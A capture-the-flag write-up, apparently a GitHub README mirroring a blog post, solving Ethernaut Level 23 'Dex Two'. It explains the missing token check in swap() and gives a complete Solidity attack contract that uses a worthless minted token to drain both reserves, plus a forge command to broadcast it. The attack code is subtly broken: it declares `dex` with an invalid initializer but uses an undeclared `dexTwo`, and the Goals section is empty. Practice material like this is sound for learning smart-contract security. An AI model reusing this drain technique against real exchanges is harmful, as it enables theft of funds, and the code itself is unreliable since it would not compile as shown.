


<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 23 - Dex Two</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 23 - Dex Two](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-23-dex-two)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Goals



## The hack

The DexTwo contract is interesting. It is almost exactly the same as the previous one, but this time our goal is to drain the reserves of <b>both</b> tokens! In reality, this is even simpler... First, let's try to find the differences between the two contracts.

In fact, there is only 1 difference, in the `swap()` function:

```javascript
function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }
```

The following requirement has been removed:

```javascript
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

So basically, the contract is no longer validating the tokens that are being swapped. This means that we can swap any token for any other token, and the contract will not complain. Good for us! This is a huge vulnerability, and we can use it to drain the reserves of both tokens very easily, and for free :)

Let's create a new useless token that will be used as `tokenIn` to feed the DexTwo contract while we empty its `tokenOut` reserves. Something simple inherited from OpenZeppelin's ERC20 contract will do just fine:

```javascript
contract FreeToken is ERC20 {
    constructor(address _dexterTwo) ERC20("FreeToken", "FTK") {
        _mint(_dexterTwo, 10000000 * 10 ** decimals());
    }
}
```

Next, we have to make sure everything is set correctly, and that all approvals are in place. After that, we send 100 FreeToken to the DexTwo contract to simulate an existing reserve. And we will finally be able to drain the reserves of both tokens in exchange for our FreeToken!

- The first swap will be of 100 FreeTokens for `token1`. This will empty the reserves of token1.
- The second swap will be of 200 FreeTokens for `token2`. This will empty the reserves of `token2`.

## Solution

Here is the full solution:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

interface IDexTwo {
    function token1() external returns (address);
    function token2() external returns (address);
    function swap(address from, address to, uint256 amount) external;
    function approve(address spender, uint256 amount) external;
    function balanceOf(
        address token,
        address account
    ) external view returns (uint256);
}

contract FreeToken is ERC20 {
    constructor(address _dexterTwo) ERC20("FreeToken", "FTK") {
        _mint(_dexterTwo, 10000000 * 10 ** decimals());
    }
}

contract DexterTwo {
    IDexTwo private immutable dex = IDexTwo;
     address private immutable token1;
    address private immutable token2;
    address private freeToken;

    constructor(address _dexTwo) {
        dexTwo = IDexTwo(_dexTwo);
        token1 = dexTwo.token1();
        token2 = dexTwo.token2();
    }

    function setFreeToken(address _freeToken) public {
        freeToken = _freeToken;
    }

    function attack() public {
        dexTwo.approve(address(dexTwo), type(uint256).max);
        IERC20(freeToken).approve(address(dexTwo), type(uint256).max);
        IERC20(freeToken).transfer(address(dexTwo), 100);

        dexTwo.swap(freeToken, token1, 100);
        dexTwo.swap(freeToken, token2, 200);

        require(
            IERC20(token1).balanceOf(address(dexTwo)) == 0 &&
                IERC20(token2).balanceOf(address(dexTwo)) == 0,
            "Hack failed!"
        );
    }
}
```

You can run the script with the following command:

```bash
forge script script/23_DexTwo.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Always validate the sensitive inputs properly.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
